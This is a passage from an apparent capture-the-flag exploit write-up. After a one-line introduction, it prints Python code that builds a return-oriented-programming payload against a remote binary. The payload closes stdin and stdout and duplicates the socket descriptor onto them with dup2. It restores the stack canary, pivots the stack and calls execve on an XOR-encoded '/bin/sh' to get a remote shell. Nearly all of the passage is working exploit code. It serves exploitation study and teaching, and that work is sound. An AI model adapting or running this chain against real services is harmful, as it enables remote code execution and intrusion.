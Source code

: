 That's it, we have all of the information we need. Now we just construct the payload with the ROP chain, place a "/bin/sh" string on the stack and plug that to the `execve` which we will execute at the end of it:

The last part of the exploit looks like this:
```python
# Final payload for remote shell
payload = "davide" + "AA"  # address of that is buffer_start_addr

# close(0)
payload += p64(gadget_pop_rdi_ret ^ Ds)  # first, we ret here <---- (
payload += p64(0x0 ^ Ds)                 # pop this to RDI
payload += p64(text_section_close_plt ^ Ds)           # ret there

# close(1)
payload += p64(gadget_pop_rdi_ret ^ Ds)  # return from above to here
payload += p64(0x1 ^ Ds)                 # pop this to RDI
payload += p64(text_section_close_plt ^ Ds)           # ret there

# dup2(4,0)
payload += p64(gadget_pop_rdi_ret ^ Ds)  # return from above to here
payload += p64(0x4 ^ Ds)                 # pop this to RDI (socket's FD)
payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds) # ret to this gadget
payload += p64(0x0 ^ Ds)                 # pop rsi
payload += p64(0xdeadbeefdeadbeef)       # pop r15 (dont care)
payload += p64(dup2_remote_addr ^ Ds)           # call dup2

# dup2(4,1)
payload += p64(gadget_pop_rdi_ret ^ Ds)  # return from above to here
payload += p64(0x4 ^ Ds)  # pop this to RDI (socket's FD)
payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)  # ret to this gadget
payload += p64(0x1 ^ Ds)  # pop rsi
payload += p64(0xdeadbeefdeadbeef)  # pop r15 (dont care)
payload += p64(dup2_remote_addr ^ Ds)  # call dup2

# When back from dup2, load arguments for execve
payload += p64(gadget_pop_rdi_ret ^ Ds)

stack_bin_sh = buffer_addr + 224  # will be placed in a few line from now
payload += p64(stack_bin_sh ^ Ds)

# Second argument for execve = NULL
payload += p64(gadget_pop_rdx_ret ^ Ds)
payload += p64(0x0 ^ Ds)

# Third argument for execve = NULL
payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)
payload += p64(0x0 ^ Ds)
payload += p64(0xdeadbeefdeadbeef ^ Ds)

# jump to execve
payload += p64((gadget_pop_rdx_ret + 1) ^ Ds)
payload += p64(execve_remote_addr ^ Ds)


# place /bin/sh on the stack 
payload += "".join([chr(ord(t) ^ 0xd) for t in "/bin/sh"])
payload += chr(0x0 ^ 0xd)  # terminating null

# Pad to the end of buffer
payload += "B" * (1032 - len(payload))
payload += p64(canary ^ Ds)
payload += p64(buffer_addr ^ Ds)
payload += p64(text_section_leave_ret ^ Ds)
```